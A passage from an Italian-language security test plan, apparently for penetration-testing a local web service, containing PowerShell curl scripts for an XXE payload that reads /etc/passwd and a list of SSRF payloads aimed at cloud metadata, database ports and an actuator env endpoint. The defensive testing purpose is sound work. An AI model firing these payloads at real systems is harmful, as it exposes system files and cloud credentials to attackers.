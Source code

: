 ```powershell
    -w "Status: %{http_code} | Time: %{time_total}s" -o $null -s | Write-Host
```

---

## 🕵️ **FASE 8: ADVANCED EXPLOITATION**

### **TEST 8.1: XXE (XML External Entity)**
**Obiettivo**: Test vulnerabilità XXE se XML parsing è presente

```powershell
Write-Host "`n=== XXE ATTACK TESTS ===" -ForegroundColor Red

$xxe_payload = @"
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<login>
    <username>&xxe;</username>
    <password>test</password>
</login>
"@

curl -X POST http://localhost:8081/auth/login `
    -H "Content-Type: application/xml" `
    -d $xxe_payload `
    -w "Status: %{http_code}" -o $null -s | Write-Host
```

### **TEST 8.2: Server-Side Request Forgery (SSRF)**
**Obiettivo**: Test vulnerabilità SSRF

```powershell
Write-Host "`n=== SSRF TESTS ===" -ForegroundColor Red

# Test internal network access
$ssrf_payloads = @(
    "http://localhost:5432",
    "http://localhost:6379", 
    "http://169.254.169.254/latest/meta-data/",
    "file:///etc/passwd",
    "http://localhost:8081/actuator/env"
)

foreach ($payload in $ssrf_payloads) {
    Write-Host "Testing SSRF with: $payload" -ForegroundColor Yellow
    curl -X POST http://localhost:8081/auth/callback `
        -H "Content-Type: application/json" `
        -d "{`"url`": `"$payload`"}" `
        -w "Status: %{http_code}" -o $null -s 2>&1 | Write-Host
}
```

---